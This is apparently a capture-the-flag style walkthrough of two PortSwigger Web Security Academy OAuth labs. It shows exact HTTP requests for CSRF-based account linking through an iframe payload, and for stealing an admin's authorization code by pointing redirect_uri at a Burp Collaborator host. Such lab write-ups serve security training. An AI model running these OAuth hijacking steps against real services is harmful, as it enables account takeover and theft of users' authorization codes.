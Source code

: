 You can log in to your own accounts using the following credentials:

Blog website account: wiener:peter Social media profile: peter.wiener:hotdog

Login blog -> Attach a social profile

`GET /auth?client_id=kc63uah4ebyokxf002r79& redirect_uri=https://ac5c1f6d1e62ae6ac042298200300071.web-security-academy.net/oauth-linking& response_type=code&scope=openid%20profile%20email HTTP/1.1`

There is no state parameter, so there is no csrf protection.

```
GET /oauth-linking?code=JSyPiTkLBFd7fwSGG_g-LQh6mePtbELznCsYZsGcIWr HTTP/1.1
```

We will do this again, then we will drop request at oauth-linking URL. So we will have an unused code.

```
GET /oauth-linking?code=PAX0Y9YNSpvpdBgZi8H9VOSf3UKGvYdT06sWfYSZaM9 HTTP/1.1
```

**Exploit Server ->**

```
Body:

    <iframe src="https://ac5c1f6d1e62ae6ac042298200300071.web-security-academy.net/oauth-linking?code=PAX0Y9YNSpvpdBgZi8H9VOSf3UKGvYdT06sWfYSZaM9"></iframe>
```

Admin user connected to specified social media account.

**Solution:**

My Account -> Login with social media.

### Lab: OAuth account hijacking via redirect\_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

`GET /auth?client_id=z46bbl0uhkvp8yzl60o40& redirect_uri=https://ac3c1f071eb4fa24c0d411a200ca005a.web-security-academy.net/oauth-callback& response_type=code&scope=openid%20profile%20email`

We can inject our website to redirect\_uri parameter.

`GET /auth?client_id=z46bbl0uhkvp8yzl60o40& redirect_uri=https://kthve5dcbz1ssi1otvtokmpndej47t.burpcollaborator.net/oauth-callback& response_type=code&scope=openid%20profile%20email HTTP/1.1` **-> Follow redirection**

**Exploit Server -> Access log**

`"GET /oauth-callback?code=iQQm-py5v3SlopdJfogFZUW5AYFMmxdt2WdmPwSSbiQ HTTP/1.1" 200`
